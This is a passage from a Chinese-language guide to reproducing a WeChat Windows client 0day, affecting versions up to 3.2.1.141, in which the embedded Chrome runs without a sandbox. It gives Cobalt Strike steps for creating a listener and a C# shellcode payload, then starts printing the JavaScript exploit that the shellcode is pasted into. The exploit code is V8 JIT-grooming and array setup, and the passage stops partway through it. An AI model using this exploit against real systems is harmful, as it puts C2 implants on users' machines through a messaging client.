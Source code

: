 

## 微信0day描述

windows 微信客户端下内置Chrome 浏览器，且默认关闭沙箱模式,因此老版本微信受到了上面漏洞的影响。

## **影响版本**

 <=3.2.1.141(Windows系统)



## 复现

CS 新建listener

![image-20210420140027608](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210420140027608.png)



创建payload，选择之前创建的listener,语言选择C#,注意不要勾选下面的use x64 payload

![image-20210420140241083](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210420140241083.png)

选择保存，文件名为payload.cs

![image-20210420140355121](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210420140355121.png)

![image-20210420140556993](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210420140556993.png)

将上图中花括号中内容复制到下面payload中的shellcode处

windows 微信客户端 payload:

```
ENABLE_LOG = true;
IN_WORKER = true;

// input your shellcode
var shellcode = [0x00,0x00];

function print(data) {
}


var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});

for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}


var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;

function cb(flag) {
    if (flag == true) {
        return;
```
